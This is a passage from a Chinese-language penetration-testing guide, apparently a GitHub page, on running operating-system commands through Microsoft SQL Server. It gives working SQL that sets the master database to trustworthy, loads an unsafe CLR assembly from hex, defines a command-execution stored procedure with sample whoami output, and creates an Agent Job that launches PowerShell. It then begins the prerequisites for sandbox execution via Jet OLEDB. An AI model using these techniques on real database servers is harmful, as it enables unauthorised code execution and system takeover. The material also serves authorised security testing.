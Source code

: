 ```sql
RECONFIGURE
GO
//将数据库标记为可信
ALTER DATABASE master SET TRUSTWORTHY ON;
```
###  8.5. <a name='-1'></a>导入程序集
```sql
CREATE ASSEMBLY [CLRS]
    AUTHORIZATION [dbo]
    FROM 0x4D5A90000300000004000000FFFF0000B8000000000000004000000000000000000000000000000000000000000000000000000000020000008000000000000000000000
    ...
    ...
    WITH PERMISSION_SET = UNSAFE;
```
###  8.6. <a name='-1'></a>创建存储过程
```sql
CREATE PROCEDURE [dbo].[runningexec]
@cmd NVARCHAR (MAX)
AS EXTERNAL NAME [CLRS].[StoredProcedures].[Runexec]
go
```
###  8.7. <a name='-1'></a>执行命令
```
exec dbo.runningexec 'whoami'`

Running command
nt service\mssql$sqlexpress
nt service\mssql$sqlexpress
```
##  9. <a name='AgentJob'></a>Agent Job代理作业
1. 目标服务器必须开启了MSSQL Server代理服务；
1. 服务器中当前运行的用户账号必须拥有足够的权限去创建并执行代理作业；
```sql
exec master.dbo.xp_servicecontrol 'start','SQLSERVERAGENT';//开启Agent Job
USE msdb; 
EXEC dbo.sp_add_job @job_name = N'test_powershell_job1' ;
EXEC sp_add_jobstep @job_name = N'test_powershell_job1', @step_name = N'test_powershell_name1', @subsystem = N'PowerShell', @command = N'powershell.exe calc.exe', @retry_attempts = 1, @retry_interval = 5 ;
EXEC dbo.sp_add_jobserver @job_name = N'test_powershell_job1'; 
EXEC dbo.sp_start_job N'test_powershell_job1';
```
##  10. <a name='-1'></a>沙盒执行命令

####  10.1. <a name='-1'></a>利用条件

- 拥有DBA权限
- sqlserver服务权限为system
- 服务器拥有jet.oledb.4.0驱动
